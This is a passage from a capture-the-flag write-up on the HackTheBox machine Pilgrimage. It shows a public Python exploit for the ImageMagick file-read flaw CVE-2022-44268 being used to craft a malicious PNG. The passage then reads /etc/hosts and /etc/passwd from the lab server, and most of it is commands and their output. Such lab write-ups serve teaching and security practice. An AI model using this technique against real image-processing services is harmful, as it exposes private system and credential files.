 ```
oxdf@hacky$ echo "3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a"
> | xxd -r -p
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

#### Script

[This repo](https://github.com/kljunowsky/CVE-2022-44268) has a nice Python version of the exploit. I run it once to create a malicious image, and then again pointing at the image on the site to get the results:

```
oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /etc/hosts --output pngout.png
oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cda5792e0d.png
127.0.0.1       localhost
127.0.1.1       pilgrimage pilgrimage.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

### Enumerate File System

#### Home Directories

I’ll start by checking the users on the box in the `/etc/passwd` file:

```
oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --image poc.png --file-to-read /etc/passwd --output pngout.png
oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdab09c70e.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```